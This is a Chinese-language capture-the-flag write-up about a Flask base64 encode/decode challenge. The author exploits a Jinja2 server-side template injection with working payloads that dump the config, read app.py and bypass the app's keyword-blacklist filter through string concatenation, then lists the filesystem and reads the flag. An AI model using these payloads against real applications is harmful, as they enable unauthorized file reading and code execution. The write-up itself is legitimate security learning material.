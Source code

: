![[Pasted image 20221221165258.png|500]]

---
首页长这样
![[Pasted image 20221221165318.png|700]]


```
/decode
```
![[Pasted image 20221221165420.png|700]]

```
/hint
```
![[Pasted image 20221221165508.png|300]]

---
先是扫目录，无果
编码页面无计可施，尝试在解码页面制造错误
尝试对`123`进行解码
跳转到了`Werkzeug`的调试页面

![[Pasted image 20221221165800.png]]
获取到了部分源码
大体上是`flask`的`SSTI`
![[Pasted image 20221221170818.png|300]]
![[Pasted image 20221221171012.png]]

```python
{{config}}
```
> 结果 ： &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;

emmm，`secret_key`看着没什么用，似乎没有什么有价值的信息

---
`url_for`可以使用，直接套出源码先
```python
{{url_for.__globals__['__builtins__']['open']('app.py','r').read()}}
```
> 结果 ： from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(\_\_name\_\_) app.config\[&#39;SECRET_KEY&#39;\] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = \[&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;\*&#34;,&#34;?&#34;\] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=\[&#39;GET&#39;\]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=\[&#39;GET&#39;\]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if \_\_name\_\_ == &#39;\_\_main\_\_&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)

```python
def waf(str):
	black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]
	for x in black_list:
		if x in str.lower():
			return 1
```

`waf`是直接的字符串匹配
直接拼接绕过

```python
{{url_for.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}
```
>[&#39;bin&#39;, &#39;boot&#39;, &#39;dev&#39;, &#39;etc&#39;, &#39;home&#39;, &#39;lib&#39;, &#39;lib64&#39;, &#39;media&#39;, &#39;mnt&#39;, &#39;opt&#39;, &#39;proc&#39;, &#39;root&#39;, &#39;run&#39;, &#39;sbin&#39;, &#39;srv&#39;, &#39;sys&#39;, &#39;tmp&#39;, &#39;usr&#39;, &#39;var&#39;, &#39;this_is_the_flag.txt&#39;, &#39;.dockerenv&#39;, &#39;app&#39;\]

```python
{{url_for.__globals__['__builtins__']['open']('/this_is_the_fl'+'ag.txt','r').read()}}
```
![[Pasted image 20221221194819.png]]

#Web #python #flask #SSTI #函数 #代码审计 